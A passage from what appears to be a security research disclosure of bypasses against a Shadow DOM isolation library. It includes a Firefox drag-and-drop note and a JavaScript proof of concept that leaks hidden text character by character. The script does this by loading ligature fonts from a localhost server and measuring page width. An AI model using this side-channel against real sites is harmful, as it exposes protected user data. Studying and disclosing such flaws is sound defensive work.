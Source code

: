 ### Impact
DOM node-level access

### Affected browsers
Firefox

### Notes
* While this isn't a JavaScript API issue, it's worth mentioning.
* Chrome and Safari sanitize the dragged HTML when dropped.

## CSS inheritance

```js
// PoC demonstrating that SecurityMB's font-based leak technique can be applied to Shadow DOM
// https://research.securitum.com/stealing-data-in-great-style-how-to-use-css-to-attack-web-application/
// Before trying:
// 1. Visit my repository: https://github.com/masatokinugawa/PoCs/tree/main/LavaDome/font-ligatures
// 2. Download them locally
// 3. Execute `npm install` and `node index.js`
// Note: This PoC is tested on Chrome and Firefox
const secretChars = "abcdef";
const prefix = "This is a secret: ";
let index = 0;
let foundChars = "";
const style = document.createElement('style');
document.body.appendChild(style);
style.innerHTML = "#shost {font-family:hack;font-size:300px;}";
const defaultWidth = document.body.scrollWidth;
const loadFont = target => {
  const font = new FontFace("hack", `url(http://localhost:3000/?target=${encodeURIComponent(target)})`);
  font.load().then(() => {
    document.fonts.add(font);
    if (defaultWidth < document.body.scrollWidth) {
      foundChars += secretChars[index];
      console.log(`Found: ${foundChars}`);
      index = 0;
    } else {
      index++;
    }
    if (foundChars.length === 8) {
      alert(foundChars);
    } else {
      loadFont(`${prefix}${foundChars}${secretChars[index]}`);
    }
  });
};
loadFont(`${prefix}${secretChars[index]}`);
```
### Impact
text access

